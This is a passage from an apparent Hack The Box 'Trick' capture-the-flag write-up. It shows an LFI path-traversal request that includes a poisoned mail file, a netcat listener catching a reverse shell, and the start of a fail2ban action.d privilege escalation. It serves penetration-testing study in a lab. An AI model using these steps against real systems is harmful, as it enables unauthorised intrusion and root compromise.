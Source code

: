 ```
Connection closed by foreign host.
```
Now we can include this file using the LFI vulnerability and write the shell to `/var/www/market` by calling `/var/mail/michael`
```
GET /index.php?page=....//....//....//....//....//var/mail/michael HTTP/1.1
Host: preprod-marketing.trick.htb
Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Wfuzz/3.1.0
Connection: close
```
then we can call the shell to trigger the execution and obtain a reverse shell
```bash
[root@kali Trick ]$ bash
root@kali:~/Documents/HTB/Boxes/Trick# nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.166] 36368
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64 GNU/Linux
 10:56:57 up  2:42,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Root
Once we log in, if we run `sudo -l` we can notice the following.  
```
bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
So we have permission to restart fail2ban. Now, let's look into configuration files:  
```bash
bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Jul 14 11:45 .
drwxr-xr-x 126 root root     12288 Jul 13 08:15 ..
drwxrwx---   2 root security  4096 Jul 14 11:45 action.d
-rw-r--r--   1 root root      2334 Jul 14 11:45 fail2ban.conf
drwxr-xr-x   2 root root      4096 Jul 14 11:45 fail2ban.d
drwxr-xr-x   3 root root      4096 Jul 14 11:45 filter.d
-rw-r--r--   1 root root     22908 Jul 14 11:45 jail.conf
drwxr-xr-x   2 root root      4096 Jul 14 11:45 jail.d
-rw-r--r--   1 root root       645 Jul 14 11:45 paths-arch.conf
-rw-r--r--   1 root root      2827 Jul 14 11:45 paths-common.conf
-rw-r--r--   1 root root       573 Jul 14 11:45 paths-debian.conf
-rw-r--r--   1 root root       738 Jul 14 11:45 paths-opensuse.conf
bash-5.0$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```
As we can notice, we are in the security group, hence we can edit files in the `action.d` folder.  
This folder allows us to perform block action when events occur.
So we can take the files that perform actions for blocking ssh bruteforce `iptables-multiport.conf` remove it (since we have write permission on the folder) and replace the file with the following: 
```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
```